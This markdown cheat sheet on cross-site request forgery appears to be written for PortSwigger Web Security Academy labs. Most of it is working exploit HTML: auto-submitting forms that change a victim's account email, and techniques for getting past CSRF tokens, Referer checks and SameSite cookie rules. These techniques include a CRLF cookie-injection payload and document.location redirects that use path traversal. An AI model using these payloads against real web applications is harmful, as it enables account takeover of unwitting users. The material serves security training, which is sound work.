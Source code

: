 ## Cross-site request forgery

## CSRF vulnerabilities work when:

- User is Authenticated;
- SameSite=None - allows them to be sent on cross-site requests;

### CSRF does not work when:

- CSRF Tokens are Present;
- Same-Site Cookies are Enabled: With SameSite cookie policy (e.g., SameSite=Lax or Strict), cookies are only sent on requests originating from the same domain;
- Referrer Check: Some sites check the Referer header to confirm requests are from their own pages;
- Origin header (sometimes) - If the site rejects requests without them, it likely relies on header-based protection.

### Standard GET CSRF:
```
<html> 
<body> 
<form action="https://vulnerable-website.com/my-account/change-email"> 
<input type="hidden" name="email" value="evil@gmail.com" /> 
</form> 
<script> document.forms[0].submit(); </script> 
</body>
</html>
```

### Standard POST CSRF:
```
<html> 
<body> 
<form action="https://vulnerable-website.com/my-account/change-email" method="POST"> 
<input type="hidden" name="email" value="evil@gmail.com" /> 
</form> 
<script> document.forms[0].submit(); </script> 
</body>
</html>
```

### Standard POST CSRF with new inputs:
```
<html> 
<body> 
<form action="https://vulnerable-website.com/my-account/change-email" method="POST"> 
<input type="hidden" name="email" value="evil@gmail.com" />
<input type="hidden" name="csrf" value="SDGDSGHRTG$rewt65RT$T4t45" /> 
</form> 
<script> document.forms[0].submit(); </script> 
</body>
</html>
```

### POST CSRF with NoREFFER header:
```
<html>
<head>
<title>CSRF Exploit </title>
  <meta name="referrer" content="no-referrer">
</head>
<body>
  <form action="https://0a2b00a103d9639280702748000e0044.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="pwned@err.net" />
    <input type="submit" value="Submit request" />
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>
```


```
<html>
<head>
  <title>CSRF Exploit </title>
</head>
<script>history.pushState("", "", "/?0a2b00a103d9639280702748000e0044.web-security-academy.net")</script>
<body>
  <form action="https://0a2b00a103d9639280702748000e0044.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="pwn234@gmail.com" />
    <input type="submit" value="Submit request" />
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>
```
## ByPass Restrictions:

### CSRF:

1) Just delete **csrf** parameter from request and change method to GET.
2) Make a note of the value of the **CSRF** token, then drop the request this is a single-use, so you'll need to include a fresh one.
3) CSRF where token is tied to non-session cookie:
   
   Changing the session cookie logs you out; and
   Changing the csrfKey cookie merely results in the CSRF token being rejected.

   https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie

4) CSRF where token is duplicated in cookie (and if the search term gets reflected in the Set-Cookie header) :

  Create a URL that uses this vulnerability to inject a fake csrf cookie into the victim's browser:
  ```
  /?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None
  ```
  
  Remove the auto-submit <script> block from **Standard CSRF** and instead add the following code to inject the cookie and submit the form:
  ```
  <img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  ```

  https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie

### Headers

```
<meta name="referrer" content="no-referrer">  //in head section

Referer: https://arbitrary-incorrect-domain.net?YOUR-LAB-ID.web-security-academy.net  //in head section

history.pushState("", "", "/?YOUR-LAB-ID.web-security-academy.net")

Referrer-Policy: unsafe-url  //in head section
```

### SameSite (if does not contains unpredictible tokens):

#### 1) SameSite=Lax:

  Send the POST /my-account/change-email request to Burp Repeater.
  Change request method.
  Try overriding the method by adding the _method parameter:
  ```
  <script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
  </script>
  ```

#### 2) SameSite=Strict:

  ```
  <script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
  </script>
  ```
  https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect
  
#### 3) Other :

  https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain

  https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh

